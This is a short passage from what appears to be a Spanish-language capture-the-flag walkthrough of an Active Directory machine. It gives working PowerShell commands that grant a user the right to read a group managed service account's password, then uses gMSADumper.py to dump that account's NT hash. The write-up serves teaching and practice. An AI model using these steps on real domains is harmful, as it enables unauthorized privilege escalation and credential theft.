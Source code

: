 
## Usando gMSADumper.py

Usaremos la herramienta de gMSADumper.py para tratar de ver la contraseña de este usuario, pero por desgracia no podemos, solo lo pueden ver los usuarios Administradores  

![paste](./images/18.jpeg)

Pero aquí no acaba esto, ya que si pertenecemos al usuario de gMSA podemos darnos el permiso a nosotros mismos para ver la contraseñas 


```PowerShell
Set-ADServiceAccount -Identity "Haze-IT-Backup$" -PrincipalsAllowedToRetrieveManagedPassword "mark.adams"
```

```PowerShell
Get-ADServiceAccount -Identity "Haze-IT-Backup$" -Properties PrincipalsAllowedToRetrieveManagedPassword
```

![paste](./images/19.jpeg)

A ejecutar de nuevo el **gMSADumper.py**, y esta vez obtendremos el hash NT del usuario Haze-IT-Backup

![paste](./images/20.jpeg)
